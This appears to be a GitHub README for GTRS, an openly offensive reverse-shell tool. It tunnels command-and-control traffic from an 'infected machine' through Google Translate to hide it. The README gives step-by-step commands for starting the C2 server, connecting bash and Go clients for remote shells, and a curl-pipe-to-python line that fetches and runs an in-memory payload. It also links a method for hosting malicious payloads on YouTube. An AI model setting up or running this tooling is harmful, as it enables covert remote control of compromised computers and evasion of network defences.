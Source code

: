# GTRS - Google Translator Reverse Shell

This tools uses [Google Translator](https://translate.google.com) as a proxy to send arbitrary commands to an infected machine.
```
[INFECTED MACHINE] ==HTTPS==> [GOOGLE TRANSLATE] ==HTTP==> [C2] 
```

# Environment Configuration
First you need a VPS and a domain, for the domain you can get a free one on [Freenom](https://freenom.com/).

# Server 
Start the server.py on your VPS
```bash
python2.7 server.py
Server running on port: 80
Secret Key: e294a11e-bb6f-49ed-b03a-9ec42be55062
```
It will provide you secret key which will be used on the client.

# Client bash
Run the client on a computer with access to [Google Translator](https://translate.google.com), providing domain and the secret key generated by the server.

```bash
bash client.sh www.c2server.ml e294a11e-bb6f-49ed-b03a-9ec42be55062
```
Now you have an interactive shell using named pipe files, **YES** you can `cd` into directories.

# Client Go
You first need to [download](https://github.com/mthbernardes/GTRS/releases) the binary or compile it, then the process is equal of the bash client,
```bash
./client_Linux www.c2server.ml e294a11e-bb6f-49ed-b03a-9ec42be55062
```
With this client you have the ability to run it on Linux, Mac and Windows, but the client do not have a interactive shell yet.

# ELF in-memory execution (Linux Only)
After reading this [blogpost](https://blog.fbkcs.ru/en/elf-in-memory-execution/), I made a simple adaption to execute the GTRS in memory, just edit the host and key in the script [inmemory-linux.py](utils/inmemory-linux.py), then host it on a server an curl it.
```bash
curl https://yourserver.ml/inmemory-linux.py | python
```
Or you can host the script using the [youtube](https://mthbernardes.github.io/rce/2018/12/14/hosting-malicious-payloads-on-youtube.html) approach.

# Poc 
[![CODE_IS_CHEAP_SHOW_ME_THE_DEMO](http://img.youtube.com/vi/02CFsE0k96E/0.jpg)](http://www.youtube.com/watch?v=02CFsE0k96E)

# Known issues 
 * ~~Google translate does not forward POST data, so there's a limit on the amount of data that your server can receive, for example, you'll probably not being able to read a big file like `.bashrc`.~~ `Problem fixed using User-Agent header to sent data`.
 * ~~The client script works on Mac an Linux, but on Linux you need to install the `xmllint` which is on `libxml2-utils`~~ `Problem fixed, now the client is write also in go.
 * It's not a problem, but I just don't know if there's a rate limit on Google Translator
